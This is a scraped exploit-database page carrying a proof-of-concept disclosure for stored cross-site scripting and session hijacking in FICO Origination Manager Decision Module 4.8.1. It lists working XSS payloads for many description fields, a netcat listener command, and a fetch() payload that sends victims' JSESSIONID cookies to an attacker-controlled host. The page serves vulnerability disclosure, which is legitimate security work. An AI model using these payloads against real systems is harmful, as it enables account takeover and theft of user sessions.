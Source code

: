 ```yaml
---
title: FICO Origination Manager Decision Module 4.8.1 XSS / Session Hijacking Vulnerabilities exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38673&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-10
fetch_date: 2025-10-04T11:39:06.850643
---
```


# FICO Origination Manager Decision Module 4.8.1 XSS / Session Hijacking Vulnerabilities exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for FICO Origination Manager Decision Module 4.8.1 XSS / Session Hijacking Vulnerabilities CVE-2023-30056 CVE-2023-30057

2023-05-09 | CVSS 7.5

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38673
# Exploit Title: Stored-XSS in FICO Origination Manager Decision Module 4.8.1 Leads to Session Hijacking
# Exploit Author: Matei Josephs
# Vendor Homepage: https://www.fico.com/
# Version: FICO Origination Manager Decision Module 4.8.1
# CVE : CVE-2023-30056, CVE-2023-30057

Introduction
=================
Multiple stored cross-site scripting (XSS) vulnerabilities in FICO Origination Manager Decision Module 4.8.1 allow to execute code in the context of the victim's browser using a crafted payload. Additionally, an attacker with initial access to the application, can get the JSESSIONID cookie of another user and take over their session. These two findings can be chained together.

Proof of Concept
=================
All description fields when adding Categories and Products, Product Strategies, Decision Flows, Data Object References, Data Methods, Data Method Sequences, Rulesets, Decision Tables, Decision Trees, Score Models, Scenarios, or Internal Services are vulnerable to a stored XSS using the following payload:
  <img/src/onerror=prompt(document.cookie)>

An attacker could implement a cookie stealer as follows:
  On the attacker's machine:
    nc -lvnp <PORT>
  In one of the vulnerable description fields:
    <img/src/onerror=fetch('http://<ATTACKER-IP>:<PORT>/'+document.cookie)>

When a victim would visit the page where the payload was injected, the attacker would receive their JSESSIONID cookie. The attacker could then use the JSESSIONID cookie to log into the Origination Manager Decision Module as the victim.
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)